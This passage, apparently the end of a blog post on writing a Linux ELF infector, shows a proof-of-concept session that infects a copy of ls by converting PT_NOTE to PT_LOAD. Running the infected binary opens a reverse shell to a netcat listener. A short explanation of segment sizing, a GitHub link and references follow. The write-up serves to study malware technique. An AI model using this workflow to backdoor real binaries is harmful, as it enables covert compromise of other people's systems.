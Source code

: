 The last thing we do in order to ensure our exploit runs and lands smoothly is to `pop` all of our registers back in the proper reverse order that we pushed them -- and then move the stack pointer we saved earlier in `r12` back to `rsp`.


## Proof of Concept

```text
$ gcc -o elf_infector elf_infector.c
$ cp $(which ls) ls
$ nasm -o shellcode shellcode.s
$ ./elf_infector ./ls shellcode
[+] Found PT_NOTE section
[+] Changing to PT_LOAD
[+] Patched e_entry
$ ./ls
elf_infector  elf_infector.c  ls  shellcode  shellcode.s
```

Meanwhile... in our other console:

```text
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 127.0.0.1 51020
cat /etc/issue
Ubuntu 24.04.2 LTS \n \l

uname -a
Linux vr 6.8.0-53-generic #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux


```


[ELF Infector on Github.](https://github.com/hexagr/elf_infector)

## V2

You might have noticed a possible discrepancy in the core functionality of our program where we modify the program headers. We added the `sc_len` derived from our `shellcode_len` value to the `p_filesz` and `p_memsz` to make room for our shellcode.

In that scenario, we called the `patch` function *afterward*, which modifies both the `shellcode_len` and shellcode buffer, extending them both before pointing them to a new shellcode buffer and length. And afterward, we then write it back to the ELF file. 

But the ELF segment modififications we specified before in the `PT_LOAD` segment -- `p_filesz` and `p_memsz` -- still have the *old* shellcode length.

Luckily, memory from  `p_filesz` through `p_memsz` [actually gets rounded](https://codebrowser.dev/linux/linux/fs/binfmt_elf.c.html#396) up to the next page size for alignment purposes. So our patched shellcode still runs even though we didn't specify the new length when manipulating the `PT_LOAD` fields. 


[^1]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/elf.h#L226
[^2]: https://man7.org/linux/man-pages/man5/elf.5.html
[^3]: https://docs.oracle.com/cd/E19683-01/817-3677/chapter6-83432/index.html
[^4]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L362
[^5]: https://man7.org/linux/man-pages/man2/execve.2.html
[^6]: https://man7.org/linux/man-pages/man2/brk.2.html
[^7]: https://stackoverflow.com/questions/6988487/what-does-the-brk-system-call-do
[^8]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L734
[^9]: https://docs.oracle.com/cd/E19683-01/816-1386/6m7qcobkp/index.html
[^10]: https://elixir.bootlin.com/glibc/glibc-2.1/source/elf/rtld.c
[^11]: https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html
[^12]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Linux
[^13]: "Note on resolving Elf_Hdr->e_entry in PIE executables." https://archive.org/details/pocorgtfo20/page/n49/mode/1up